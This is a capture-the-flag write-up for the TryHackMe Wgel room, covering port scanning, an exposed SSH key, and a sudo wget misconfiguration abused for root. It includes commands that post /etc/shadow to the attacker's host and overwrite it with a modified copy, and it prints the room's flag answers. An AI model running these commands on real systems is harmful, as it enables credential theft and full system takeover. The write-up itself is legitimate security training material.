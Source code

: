 # Wgel CTF

Can you exfiltrate the root flag?

Room URL: https://tryhackme.com/room/wgelctf

---

# Task 1

No info given. Let's run a portscan. Just two open ports.

```
$ nmap -sC -sV 10.10.9.43
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-02 13:17 CEST
Nmap scan report for 10.10.9.43
Host is up (0.040s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Gobuster shows a `/sitemap` and on the index in the source I found the follwing:
```
 <!-- Jessie don't forget to udate the webiste -->
```

Possibly some outdated software? And a hint at a possible username `Jessie`

`/sitemap` is actually a full fledged website. But I can't really find anything
useful on there. After running gobuster again on the `/sitemap` address I found
a `/.ssh` folder which actually contains a valid ssh key!


1. User flag

The ssh key allows us to log in to the machine as the `jessie` user. Seems the
user flag is located in the Documents folder in the homedir of jessie:
```
$ find / -type f -name "*flag*" 2>/dev/null
/home/jessie/Documents/user_flag.txt
```

```
057c67131c3d5e42dd5cd3075b198ff6
```

2. Root flag

`sudo -l` shows we can run `/usr/bin/wget` as root without password:

```
User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Seeing that we can wget to both POST and GET files, we could POST the contents
of `/etc/shadow` file to set a password on the root user and then GET that file
to log in as root with our custom password.

```
jessie@CorpOne:~$ sudo /usr/bin/wget --post-file=/etc/shadow 10.8.39.224:8888
--2020-06-02 14:48:46--  http://10.8.39.224:8888/
Connecting to 10.8.39.224:8888... connected.
HTTP request sent, awaiting response... No data received.
```

On my laptop I saved the file and inserted my custom root password which I
generated by using `openssl passwd -6 -salt xyz mypassword`. Then I started an
http server with python3 from my working directory and retrieved that file with
wget:

```
jessie@CorpOne:~$ sudo /usr/bin/wget http://10.8.39.224:9999/custom_shadow -O /etc/shadow
--2020-06-02 14:50:42--  http://10.8.39.224:9999/custom_shadow
Connecting to 10.8.39.224:9999... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1365 (1,3K) [application/octet-stream]
Saving to: ‘/etc/shadow’

/etc/shadow               100%[==================================>]   1,33K  --.-KB/s    in 0s

2020-06-02 14:50:42 (164 MB/s) - ‘/etc/shadow’ saved [1365/1365]

jessie@CorpOne:~$ su root
Password:
root@CorpOne:/home/jessie# ls /root
root_flag.txt
root@CorpOne:~# cat root_flag.txt
```

```
b1b968b37519ad1daa6408188649263d
```
